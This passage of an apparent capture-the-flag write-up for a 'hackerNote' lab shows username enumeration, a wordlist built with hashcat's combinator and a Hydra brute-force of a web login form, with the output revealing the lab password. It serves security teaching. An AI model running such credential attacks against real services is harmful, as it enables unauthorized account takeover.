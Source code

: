 ```python
for user in valid:
    print(user+" is likely valid!")

file.close()
```

- Found username `james`.

#### Hydra
- Created a wordlist combining `colors.txt` and `names.txt`

```console
❯ /opt/hashcat-utils-1.9/bin/combinator.bin  colors.txt numbers.txt > passwords.txt
```
- Started hydra with password list as `passwords.txt` and username  as `james`.

```console
❯ hydra 10.10.95.113 -s 8080  -f http-form-post "/api/user/login:username=^USER^&password=^PASS^:Invalid username Or Password" -l james -P passwords.txt
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-20 17:52:33
[DATA] max 16 tasks per 1 server, overall 16 tasks, 180 login tries (l:1/p:180), ~12 tries per task
[DATA] attacking http-post-form://10.10.95.113:8080/api/user/login:username=^USER^&password=^PASS^:Invalid username Or Password
[STATUS] 48.00 tries/min, 48 tries in 00:01h, 132 to do in 00:03h, 16 active
[8080][http-post-form] host: 10.10.95.113   login: james   password: blue7
[STATUS] attack finished for 10.10.95.113 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-20 17:53:44
```
- Found password `blue7` for `james`.
- Logged in and found ssh password for james

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <title>Notes - hackerNote</title>
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link rel="stylesheet" type="text/css" media="screen" href="../main.css">
    <script src="../main.js"></script>
    <script src="note.js"></script>
</head>
<body onload="getNotes()">
    <div class="navbar">
        <h1 class="title">hackerNote</h1>
        <button onclick="document.cookie='SessionToken=; expires=Thu, 01 Jan 1970 00:00:00 UTC; path=/;';postData('/api/user/logout');window.location='/';">Logout</button>
    </div>
    <h2 class="margin">Your notes:</h2>
    <button id="newNote" class="margin" onclick="noteDialog()">Create New Note</button>
    <form id="notesForm" class="margin" style="display: none;">
        <input id="Title" placeholder="Title" style="width: 50%"><br>
        <textarea class="margin" id="Content" placeholder="Contents" type="text" style="width: 50%"></textarea><br>
        <button id="newNoteButton" class="margin" type="button" onclick="createNote()">Create Note</button>
        <button id="cancel" type="button" onclick="cancelNote()">Cancel</button>
    </form>
    <div id="notesDiv">
    </div>
```
